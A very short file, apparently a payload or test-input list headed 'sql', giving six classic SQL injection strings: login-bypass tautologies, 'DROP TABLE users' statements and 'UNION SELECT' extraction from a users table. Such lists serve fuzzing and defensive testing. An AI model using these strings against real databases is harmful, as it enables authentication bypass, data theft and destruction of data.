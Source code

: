 # sql

  ' OR '1'='1
  
  " OR "1"="1
  
  '; DROP TABLE users; --
  
  "; DROP TABLE users; --
  
  ' UNION SELECT * FROM users; --
  
  " UNION SELECT * FROM users; --
